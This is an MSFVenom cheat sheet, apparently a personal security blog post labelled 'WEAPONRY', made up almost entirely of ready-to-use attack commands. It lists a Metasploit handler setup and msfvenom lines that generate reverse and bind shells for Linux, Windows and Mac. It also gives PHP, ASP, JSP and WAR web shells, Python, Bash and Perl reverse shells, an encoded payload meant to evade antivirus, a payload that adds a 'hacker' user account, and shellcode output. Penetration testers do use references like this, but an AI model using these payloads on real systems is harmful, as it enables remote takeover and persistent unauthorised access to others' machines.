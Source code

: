 ```yaml
---
title: MSFVenom
date: 2020-12-16 05:30:39
category: WEAPONRY
---
```


# MSFVenom Cheat Sheet

### Metasploit Handler

``` bash
use exploit/multi/handler
set PAYLOAD <Payload name>
set RHOST <Remote IP>
set LHOST <Local IP>
set LPORT <Local Port>
run
```

## 0x01 Binaries Payloads

### 1、Linux
Linux Meterpreter Reverse Shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > shell.elf

Linux Bind Meterpreter Shell
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > bind.elf

Linux Bind Shell
msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > term.elf

### 2、Windows
Windows Meterpreter Reverse TCP Shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe

Windows Reverse TCP Shell
msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe

Windows Encoded Meterpreter Windows Reverse Shell
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe

Windows Create User
msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe

### 3、Mac
Mac Reverse Shell
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f macho > shell.macho

Mac Bind Shell
msfvenom -p osx/x86/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f macho > bind.macho

## 0x02 Web Payloads

PHP Meterpreter Reverse TCP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php
cat shell.php | pbcopy && echo ‘<?php ‘ | tr -d ‘\n’ > shell.php && pbpaste >> shell.php

ASP Meterpreter Reverse TCP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f asp > shell.asp

JSP Java Meterpreter Reverse TCP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp

WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war

## 0x03 Scripting Payloads

Python Reverse Shell
msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py

Bash Unix Reverse Shell
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh

Perl Unix Reverse shell
msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl

## 0x04 Shellcode

### 1、Linux
Linux Meterpreter Reverse TCP Shellcode
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>

### 2、Windows
Windows Meterpreter Reverse TCP Shellcode
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>

### 3、Mac
Mac Reverse TCP Shellcode
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>


